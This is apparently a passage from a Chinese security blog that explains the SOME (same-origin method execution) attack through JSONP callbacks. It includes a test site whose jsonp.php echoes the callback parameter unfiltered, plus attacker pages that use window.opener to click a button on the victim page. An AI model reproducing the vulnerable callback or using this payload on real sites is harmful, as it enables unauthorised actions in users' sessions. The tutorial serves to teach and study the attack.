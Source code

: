 当访问color.php的时候，页面就会自动执行`get_color`，这个页面和父页面同源，结构也和传统的jsonp接口不太一样，但这种情况完全有可能发生。

一般来说，我们可能会尝试在`get_color`尝试domxss，遗憾的是，大部分这样的接口都只允许`.\w+`的字符输入。

而SOME攻击，就是在这种场景下出现的，在callback这里的缺陷可以导致执行同源下的**任意**方法，值得注意的是，这种攻击方法并不是csrf，他可以完全模拟你的任何行为。

这种攻击方式有几个局限性:
1、受到返回头的影响，如果返回头为`Content-T ype: application/json`,则任何利用都不会生效。
2、攻击者没办法操作执行函数传入参数，或者可以说是比较难操作。
3、受到同源策略的限制，只能执行同源下的任意方法。

## 让我们来测试一下

首先我们需要一个站点来模拟一下

index.html
```
<form>
    <button onclick="c()">Secret Button</button>
    </form>
<script>
    function c() {
        alert("LoRexxar click!");
    }
</script>
```

jsonp.php
```
<?php
$callback = empty($_GET["callback"]) ? "jsCallback" : $_GET["callback"];

echo "<script>";
echo $callback . "()";
echo "</script>";
```

我们假设click是一个敏感的按钮，这种情况我们可以通过SOME来点击这个按钮来执行相应的js。

首先我们需要一个some1.html
```
<script>
    function start_some() {
        window.open("some2.html");
        location.replace("http://b.com/index.html");
    }

    setTimeout(start_some(), 1000);
</script>
```

其次需要一个some2.html
```
<script>
    function attack() {
        location.replace("http://b.com/jsonp.php?callback=window.opener.document.body.firstElementChild.firstElementChild.click");
    }

    setTimeout(attack, 2000);

</script>
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tzbaummy81p4ycznfzj0ladl/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ik54i9k8irjz1biosk5xnunu/image.png